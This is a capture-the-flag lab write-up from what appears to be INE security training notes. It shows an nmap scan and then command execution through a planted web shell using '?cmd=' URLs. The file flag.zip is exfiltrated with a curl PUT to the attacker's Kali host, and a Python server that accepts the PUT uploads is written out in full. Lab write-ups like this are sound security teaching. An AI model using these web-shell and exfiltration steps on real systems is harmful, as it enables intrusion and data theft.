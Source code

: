# Data Exfiltration

## 🔬

The Kali OS GUI instance is web hosted on the INE website, where:

- You have exploited a vulnerable API endpoint and overwritten it with malicious code. This modification allows you to run commands on the server machine hosting the API, as a *low privilege user* (i.e. student). A sensitive flag file is kept in a zipped archive file in the *student user's home directory*.
- There is a monitor process running on the server machine that blocks most protocols *except HTTP protocol* (when using port **80**).
- The API endpoint is accessible at `demo.ine.local` domain.

*Objective*: Transfer the zipped archive to your Kali machine using HTTP protocol and retrieve the flag!

***Tools*** used:

- **`nmap`**, **`curl`**
- A web browser
- Python Scripting

## SOLUTION

- Check Kali instance IP address and ping the vulnerable server.

  - **`ip -br -c a`**
  - **`ping demo.ine.local`**

  ```shell
  root@INE:~# ip -br -c a
  eth1@if126466    UP             192.70.33.2/24 
  lo               UNKNOWN        127.0.0.1/8 
  ip_vti0@NONE     DOWN           
  eth0@if126463    UP             10.1.0.17/16
  
  root@INE:~# ping demo.ine.local
  PING demo.ine.local (192.70.33.3) 56(84) bytes of data.
  64 bytes from demo.ine.local (192.70.33.3): icmp_seq=1 ttl=64 time=0.159 ms
  ```

- The web server IP is `192.70.33.3` 

### nmap

- Perform an `nmap` scan to check open ports on the server:

  - *Simple scan*:

    **`sudo nmap demo.ine.local`**

  ```shell
  root@INE:~# sudo nmap demo.ine.local
  Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-05 15:34 IST
  Nmap scan report for demo.ine.local (192.70.33.3)
  Host is up (0.0000080s latency).
  Not shown: 999 closed tcp ports (reset)
  PORT     STATE SERVICE
  8000/tcp open  http-alt
  MAC Address: 02:42:C0:46:21:03 (Unknown)
  
  Nmap done: 1 IP address (1 host up) scanned in 0.29 seconds
  ```

  - *Advanced scan*:
    
    **`sudo nmap -sC -sV -oA nmap/dataexfiltration 192.70.33.3`**
    
    - **`-sC`** - for default scripts
    - **`-sV`** - probe open ports to determine service/versions info
    - **`-oA`** - output all 3 major formats in a directory

  ```shell
  root@INE:~# less nmap/dataexfiltration.nmap
  
  # Nmap 7.92 scan initiated Thu May  5 14:31:09 2022 as: nmap -sC -sV -oA nmap/dataexfiltration 192.70.33.3
  Nmap scan report for demo.ine.local (192.70.33.3)
  Host is up (0.0000080s latency).
  Not shown: 999 closed tcp ports (reset)
  PORT     STATE SERVICE VERSION
  8000/tcp open  http    Werkzeug httpd 0.15.2 (Python 2.7.16)
  |_http-title: Site doesn't have a title (text/html; charset=utf-8).
  MAC Address: 02:42:C0:46:21:03 (Unknown)
  
  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  # Nmap done at Thu May  5 14:31:15 2022 -- 1 IP address (1 host up) scanned in 6.91 seconds
  ```

  - A Python2 web server (Werkzeug) is running on open port **8000**.

- Check the response from a browser by visiting `http://demo.ine.local:8000/`

![](.gitbook/assets/image-20220505111539250.png)

### Web shell commands

- Pass a parameter named `cmd` with the URL, using `?cmd=VALUE` in the URL:
  - **`http://demo.ine.local:8000/?cmd=pwd`**

![](.gitbook/assets/image-20220505120650948.png)

  - **`http://demo.ine.local:8000/?cmd=ls+-l`** - check contents of pwd:

![](.gitbook/assets/image-20220505120905753.png)

- *flag.zip* file must be transferred to the Kali instance.

- Check if `curl` command is present on the server

  - **`http://demo.ine.local:8000/?cmd=curl+-h`** - curl is present:

![](.gitbook/assets/image-20220505121245432.png)

  - `curl` can be used to exfiltrate the flag.zip file by sending it over HTTP protocol to a local HTTP server on the Kali instance, using the **`-T`** option:

  > -T, --upload-file <file>
  >               This transfers the specified local file to the remote URL. If  there  is  no
  >               file  part  in the specified URL, curl will append the local file name. NOTE
  >               that you must use a trailing / on the last directory to really prove to Curl
  >               that  there is no file name or curl will think that your last directory name
  >               is the remote file name to use. That will most likely cause the upload oper‐
  >               ation to fail. If this is used on an HTTP(S) server, the PUT command will be
  >               used.

### Python HTTP server

- Run a HTTP server on the local machine using python:
  - **`python -m SimpleHTTPServer 80`**

  - The Kali instance IP is `192.70.33.2`

  - `http://demo.ine.local:8000/?cmd=curl+192.70.33.2+-T+flag.zip`
  - *Error response - Unsupported method ('PUT')*

![](.gitbook/assets/image-20220505125425734.png)

- (Same error with **`python3 -m http.server 80`**)
- Create a Python script to run an *HTTP server supporting PUT*.

  ```shell
  root@INE:~# which python
  /usr/bin/python
  
  root@INE:~# nano httpserver.py
  ```

  - Add the following code to the htttserver.py script:

  ```python
  #!/usr/bin/python
  import SimpleHTTPServer
  import BaseHTTPServer
  
  class SputHTTPRequestHandler(SimpleHTTPServer.SimpleHTTPRequestHandler):
      def do_PUT(self):
          print self.headers
          length = int(self.headers["Content-Length"])
          path = self.translate_path(self.path)
          with open(path, "wb") as dst:
              dst.write(self.rfile.read(length))
  
  
  if __name__ == '__main__':
      SimpleHTTPServer.test(HandlerClass=SputHTTPRequestHandler)
  ```

  > *Thanks to [BigBlueHat](https://gist.github.com/BigBlueHat/0ca3894f715aac2f2e40af3a8aa0a436) for the script.*

  - Run the SimpleHTTP server using the script:
    - **`python httpserver.py 80`**
  - Try again the PUT request
    `http://demo.ine.local:8000/?cmd=curl+192.70.33.2+-T+flag.zip`
    - Archive flag.zip was received by the server.

![](.gitbook/assets/image-20220505130449931.png)

- Stop the running HTTP server and check the folder for the downloaded file.

  - **`ls -l`**

![](.gitbook/assets/image-20220505131132654.png)

- Unzip the archive and retrieve the flag:

  - **`unzip flag.zip`**
  - **`cat flag/flag.txt`**

![](.gitbook/assets/image-20220505131635395.png)

> 📍 Lab solved!
>
> 📌 Check [An Introduction to Web Shells - by Acunetix](https://www.acunetix.com/blog/articles/introduction-web-shells-part-1/)
